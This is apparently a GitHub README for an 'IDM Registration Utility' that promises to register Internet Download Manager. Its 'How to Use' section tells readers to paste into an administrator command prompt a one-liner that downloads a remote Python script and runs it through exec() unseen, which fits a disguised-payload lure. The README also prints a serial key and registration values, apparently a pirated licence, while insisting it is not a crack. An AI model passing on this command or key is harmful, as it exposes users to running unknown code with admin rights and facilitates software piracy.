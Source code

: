 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my repository! This IDM is not crack or unoffcial vertion, it just register IDM with valid key which has been purchased !
Crack and Unoficial vertion contains Virus and trojans, you can download official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Here's the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in resources folder.


## Screenshots
Here's a screenshot of what the Registerd IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Pythion on your device.
2. Copy this command, and past it on cmd (Administration required)
```python
C:\Windows\py.exe -m pip install requests && C:\Windows\py.exe -c "import urllib.request, requests; exec(urllib.request.urlopen('https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py').read().decode())"

```
3.Your good to go !

---

## Additional Info


```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="info@tonec.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```

